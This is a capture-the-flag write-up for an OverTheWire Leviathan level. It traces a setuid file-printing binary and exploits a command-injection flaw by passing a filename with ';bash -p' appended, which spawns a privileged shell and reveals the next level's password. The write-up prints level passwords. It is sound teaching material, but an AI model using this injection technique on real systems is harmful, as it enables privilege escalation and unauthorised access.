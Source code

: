 **`leviathan2@gibson:~$ ls`**  
*`printfile`*  

Another setuid binary. 

**`leviathan2@gibson:~$ ./printfile`**  
```
*** File Printer ***
Usage: ./printfile filename
```
**`leviathan2@gibson:~$ ls -la`**  
```
total 36
drwxr-xr-x  2 root       root        4096 Dec  3 08:13 .
drwxr-xr-x 83 root       root        4096 Dec  3 08:14 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Dec  3 08:13 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```
**`leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3`**   
*`You cant have that file...`*  

Well that's odd; it won't let us print the contents of the leviathan3 password file, despite the binary having ownership permissions of `leviathan3`. Let's see what's going on under the hood:

**`leviathan2@gibson:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3`**  
```
__libc_start_main(0x80491e6, 2, 0xffffd5d4, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                                                                                                        = -1
puts("You cant have that file..."You cant have that file...
)                                                                                                                 = 27
+++ exited (status 1) +++
```

So it's using the `access()` function to determine whether I have read permissions for the referenced file. Since this returned a -1 in the `ltrace`, this fails, and then resorts to `puts()` to print that I don't have access. Let's try running this again with another file, one that we should definitely have read-access to:

**`leviathan2@gibson:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2`**  
```
__libc_start_main(0x80491e6, 2, 0xffffd5d4, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                                                                                        = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")                                              = 39
geteuid()                                                                                                                                          = 12002
geteuid()                                                                                                                                          = 12002
setreuid(12002, 12002)                                                                                                                             = 0
system("/bin/cat /etc/leviathan_pass/lev"...mEh5PNl10e
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 0
+++ exited (status 0) +++
```

Here we go. There are several things going on here:
* The `access()` function checks whether we have read permissions to the file referenced in our setuid binary execution argument
* A string is built, using `snprintf()`, concatenating `/bin/cat` with the filename in question
* The `setreuid()` function sets both the real and effective UID to leviathan3
* The `system()` function calls the concatenated string built earlier and executes

As stated above, any "filename" (that we have read permissions for) that is passed to the concatenated string will be executed by `system()`, AFTER `setreuid()` sets the real/effective UID to leviathan3. We can therefore fool the `system()` function into accepting a filename with a command appended to it, since there doesn't seem to be any proper input validation in place:

**`leviathan2@gibson:~$ mkdir /tmp/rajh`**  
**`leviathan2@gibson:~$ touch "/tmp/rajh/test;bash -p"`**  
**`leviathan2@gibson:~$ ./printfile "/tmp/rajh/test;bash -p"`**  
*`/bin/cat: /tmp/rajh/test: No such file or directory`*  
*`leviathan3@gibson:~$`*  

So rather than `./printfile` interpreting my referenced file as one file, it interpreted it as a file AND a command; it first executed `/bin/cat /tmp/rajh/test` (which didn't exist), and then executed `bash -p`, which spawned a shell as leviathan3.

**`leviathan3@gibson:~$ cat /etc/leviathan_pass/leviathan3`**  
*`Q0G8j4sakn`*  
